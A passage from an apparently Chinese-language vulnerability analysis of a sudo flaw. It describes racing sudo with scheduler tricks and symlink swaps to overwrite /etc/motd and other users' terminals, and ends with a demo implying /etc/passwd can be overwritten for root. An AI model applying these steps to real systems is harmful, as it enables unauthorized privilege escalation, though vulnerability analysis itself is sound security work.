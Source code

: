 5、检测到 / dev/shm/_tmp 文件夹关闭后，暂停 sudo 程序，修改 / dev/shm/_tmp/_tty，使其指向 / etc/motd，成功后继续运行程序。

6、为了可以两次成功暂停 sudo 进程，可以将其优先级设置为 19，调用 sched_setscheduler 为其设置 SCHED_IDLE 策略，调用 sched_setaffinity 使 sudo 进程和利用进程使用相同的 CPU，而利用进程的优先级被设置为 - 20（最高优先级）。

7、最终测试：在 sudoers 添加 testtest ALL=(ALL) /usr/bin/sum 策略，运行 sudopwn（将输出 / 重定向到 / etc/motd），可以看出文件中的内容原本为 “motd”，运行程序后被覆盖为 sum 命令的报错信息：

```
Last login: Thu Feb 13 15:02:54 2020
motd
[testtest@redhat ~]$ ./sudopwn
[sudo] password for testtest: 
[testtest@redhat ~]$ cat /etc/motd
/usr/bin/sum: unrecognized option '--
HELLO
WORLD
'
Try '/usr/bin/sum --help' for more information.


```

第二种利用思路简单一些，攻击者在登录之后，可进入 / dev/pts 目录筛选出其它用户登录的设备，计算该设备号，利用此漏洞使用带有此设备号的符号链接来启动 sudo 程序，根据其授权的命令不同可选择获取对该终端的读写权限。

```
[testtest@redhat pts]$ tty
/dev/pts/1
[testtest@redhat pts]$ ls
0  1  2  ptmx
[testtest@redhat ~]$ ./sudopwn2
Input pts num: 2
[sudo] password for testtest: 
[testtest@redhat ~]$ 

[strawberry@redhat ~]$ /usr/bin/sum: unrecognized option '--
HELLO
WORLD
'
Try '/usr/bin/sum --help' for more information.


```

漏洞总结
----

sudo 获取设备号的方式存在漏洞，使得攻击者可控制设备号。攻击者可选取一组对应的设备号和设备文件，使用带有伪造设备号的符号链接启动 sudo。由于漏洞的存在，程序会读取错误的设备号，并在 / dev 中寻找相应的设备文件（如果是本身不存在的设备文件，攻击者还需选择合适的时机创建此设备文件，并在另一刻将指向其的符号链接指向目标文件）。当程序运行在启用 SELinux 的系统上时，如果 sudo 使用了 r 选项使用指定 role 创建 SELinux 安全上下文，则会将 stdin、stdout 和 stderr 重定向到当前设备，这可能允许攻击者对目标设备进行未授权读写。假如攻击者利用该漏洞覆写了 / etc/passwd 文件，则有可能获取 root 权限。

```
strawberry@ubuntu:~$ ssh testtest@192.168.29.173
testtest@192.168.29.173's password: 
Last login: Thu Feb 13 15:02:54 2020
[testtest@redhat ~]$ whoami
testtest
[testtest@redhat ~]$ ./sudopwn 
[sudo] password for testtest: 
[testtest@redhat ~]$ whoami
whoami: cannot find name for user ID 1001
[testtest@redhat ~]$ logout
Connection to 192.168.29.173 closed.

strawberry@ubuntu:~$ ssh testtest@192.168.29.173
testtest@192.168.29.173's password: 
```